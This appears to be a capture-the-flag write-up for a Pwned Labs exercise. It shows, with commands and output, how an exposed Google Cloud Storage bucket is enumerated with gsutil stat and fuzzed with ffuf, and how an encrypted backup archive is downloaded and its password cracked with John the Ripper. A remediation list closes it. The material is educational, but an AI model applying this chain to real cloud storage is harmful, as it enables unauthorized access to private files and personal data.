 ## **Reveal Hidden Files in Google Storage**


![](https://i.imgur.com/oHc3KrJ.png)


- Visiting the domain hosted with Google cloud; [https://careers.gigantic-retail.com/index.html](https://careers.gigantic-retail.com/index.html)
- Wappalyzer shows it is truly hosted in GCP


![](https://github.com/user-attachments/assets/6e56874a-0d81-479a-92f3-032157afb3ff)

- Viewing page source discovered a commented storage image path 

```js
<!--                    <div class="right-image">
                        <img src="https://storage.googleapis.com/it-storage-bucket/images/retail1.jpg" alt="Career Image">
                    </div> -->
```

For further enumeration install google cloud cli from [here](https://cloud.google.com/sdk/docs/install-sdk)


- Login to G-cloud

```
 gcloud auth login

Your browser has been opened to visit:

    https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=TwdT2cshR2ovPO71xl6vLzKzy4fZ9n&access_type=offline&code_challenge=6KHmXYqGgs_oDLy12_w6P895_dSPF_iI360bCo--ZiDQ&code_challenge_method=S256

Opening in existing browser session.

You are now logged in as [ol*******@gmail.com].
Your current project is [None].  You can change this setting by running:
  $ gcloud config set project PROJECT_ID
```


- Listing bucket content with google cli = access denied error

```bash
secfortress@sh3llz ~/GCP_Hacking> gcloud storage buckets list gs://it-storage-bucket/

ERROR: (gcloud.storage.buckets.list) [ol******@gmail.com] does not have permission to access b instance [it-storage-bucket] (or it may not exist): ol******@gmail.com does not have storage.buckets.get access to the Google Cloud Storage bucket. Permission 'storage.buckets.get' denied on resource (or it may not exist). This command is authenticated as ol******@gmail.com which is the active account specified by the [core/account] property.

```


- Listing bucket content with google storage utility = access denied error also

```bash
secfortress@sh3llz ~/GCP_Hacking [1]> gsutil ls gs://it-storage-bucket/

AccessDeniedException: 403 ola******@gmail.com does not have storage.objects.list access to the Google Cloud Storage bucket. Permission 'storage.objects.list' denied on resource (or it may not exist).
```


- The stat command list info about object URLs also (good for enumeration purposes)

```bash
secfortress@sh3llz ~/GCP_Hacking [1]> gsutil stat gs://it-storage-bucket/index.html

gs://it-storage-bucket/index.html:
    Creation time:          Tue, 26 Dec 2023 17:16:02 GMT
    Update time:            Tue, 26 Dec 2023 20:16:06 GMT
    Storage class:          STANDARD
    Content-Length:         11407
    Content-Type:           text/html
    Hash (crc32c):          NQiHAw==
    Hash (md5):             rIHCYQzSUEHllo04PfXd0w==
    ETag:                   CMTu57HNrYMDEAI=
    Generation:             1703610962016068
    Metageneration:         2
secfortress@sh3llz ~/GCP_Hacking> gsutil stat gs://it-storage-bucket/index.css

You aren't authorized to read gs://it-storage-bucket/index.css - skipping
No URLs matched: gs://it-storage-bucket/index.css
secfortress@sh3llz ~/GCP_Hacking [1]> gsutil stat gs://it-storage-bucket/js/main.js

gs://it-storage-bucket/js/main.js:
    Creation time:          Tue, 26 Dec 2023 14:33:11 GMT
    Update time:            Tue, 26 Dec 2023 20:27:02 GMT
    Storage class:          STANDARD
    Content-Length:         1924
    Content-Type:           text/javascript
    Hash (crc32c):          02RNaw==
    Hash (md5):             9npVfXhpiN8qVRqKK9M2mA==
    ETag:                   CIqY4P6orYMDEAI=
    Generation:             1703601191259146
    Metageneration:         2

```


- Although there is no sensitive output from the previous command
- It is possible to fuzz for sensitive files in the storage bucket using `ffuf`
- Download the given wordlist with the below command

```bash
wget https://raw.githubusercontent.com/xajkep/wordlists/master/discovery/backup_files_only.txt
```


Then fuzz the storage bucket with the below command

```bash
# -w : wordlist file
# -u : URL of storage bucket
# -c : colorize output
ffuf -w backup_files_only.txt -u https://storage.googleapis.com/it-storage-bucket/FUZZ -mc 200 -c
```

> PS: you don't need to always use `ffuf`, any tool that does the work faster and efficient


```bash
secfortress@sh3llz ~/GCP_Hacking> ffuf -w backup_files_only.txt -u https://storage.googleapis.com/it-storage-bucket/FUZZ -mc 200 -c

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://storage.googleapis.com/it-storage-bucket/FUZZ
 :: Wordlist         : FUZZ: /home/secfortress/GCP_Hacking/backup_files_only.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

backup.7z               [Status: 200, Size: 22072, Words: 102, Lines: 101, Duration: 367ms]
:: Progress: [1015/1015] :: Job [1/1] :: 136 req/sec :: Duration: [0:00:08] :: Errors: 0 ::
```


- Then use the `gsutil` command to download the `.7z` file locally

```bash
secfortress@sh3llz ~/GCP_Hacking> gsutil cp gs://it-storage-bucket/backup.7z .

Copying gs://it-storage-bucket/backup.7z...
- [1 files][ 21.6 KiB/ 21.6 KiB]                                                
Operation completed over 1 objects/21.6 KiB.
```


- The` .7`z file is encrypted
- Grab the hash file with `7z2john` to crack with `JtR`


```
┌──(secfortress㉿sh3llz)-[~/GCP_Hacking]
└─$ 7z2john backup.7z >> hash.txt
ATTENTION: the hashes might contain sensitive encrypted data. Be careful when sharing or posting these hashes

```


- Now crack with `johntheripper`


```bash
secfortress@sh3llz ~/GCP_Hacking> john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (7z, 7-Zip archive encryption [SHA256 256/256 AVX2 8x AES])
Cost 1 (iteration count) is 524288 for all loaded hashes
Cost 2 (padding size) is 3 for all loaded hashes
Cost 3 (compression type) is 2 for all loaded hashes
Cost 4 (data length) is 21837 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
balance          (backup.7z)     
1g 0:00:01:43 DONE (2025-09-06 00:03) 0.009692g/s 124.6p/s 124.6c/s 124.6C/s rainbow2..wendel
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

> The hash cracking process was successful, Password is: **"balance**

Then decrypt the file using the `7z` utility

```bash
secfortress@sh3llz ~/GCP_Hacking> 7z x backup.7z 

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=en_US.UTF-8 Threads:12 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 22072 bytes (22 KiB)

Extracting archive: backup.7z
--
Path = backup.7z
Type = 7z
Physical Size = 22072
Headers Size = 232
Method = LZMA2:16 7zAES
Solid = +
Blocks = 1

    
Enter password (will not be echoed):
Everything is Ok

Files: 2
Size:       54193
Compressed: 22072

```


The retrieve file contains sensitive PII and a flag for the platform; **_Pwnedlabs_**


![](https://i.imgur.com/DuBSc0r.png)


## **Remediation**


- Use a single purpose bucket for web hosting 
- Redact the name of the Google Storage bucket that was hosting the website.
- Store sensitive archives in a private bucket
- Use strong and complex passwords for encrypted files
- Use per-project random codenames such as `deltaorangestouchdown-prod` to name the buckets.


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>
